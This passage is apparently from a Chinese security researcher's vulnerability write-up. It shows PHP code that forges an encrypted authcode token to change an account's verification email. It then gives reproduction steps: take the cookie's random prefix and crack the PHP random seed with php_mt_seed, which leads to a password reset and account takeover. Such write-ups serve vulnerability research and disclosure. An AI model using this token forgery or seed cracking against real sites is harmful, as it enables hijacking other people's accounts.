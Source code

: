 ```
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}

	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}

	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}

	if($operation == 'DECODE') {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
			return '';
		}
	} else {
		return $keyc.str_replace('=', '', base64_encode($result));
	}

}

echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16)));
```

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。
![image.png-52kB][10]

# 漏洞复现 #

打开页面
![image.png-193.7kB][11]

获取cookie随机数4位前缀：sW7c

生成php_mt_seed参数格式：0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61


  [1]: http://static.zybuluo.com/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: http://static.zybuluo.com/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: http://static.zybuluo.com/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: http://static.zybuluo.com/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: http://static.zybuluo.com/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: http://static.zybuluo.com/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: http://static.zybuluo.com/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: http://static.zybuluo.com/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: http://static.zybuluo.com/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: http://static.zybuluo.com/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: http://static.zybuluo.com/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: http://static.zybuluo.com/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: http://static.zybuluo.com/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: http://static.zybuluo.com/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: http://static.zybuluo.com/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png